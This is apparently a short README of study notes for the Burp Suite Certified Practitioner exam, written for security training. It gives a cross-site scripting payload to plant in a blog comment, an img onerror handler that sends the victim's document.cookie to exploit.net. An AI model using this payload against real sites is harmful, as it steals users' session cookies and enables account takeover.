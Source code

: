 # Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

**Place payload in blog post comment section for victim to visit and send cookie.**
```
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
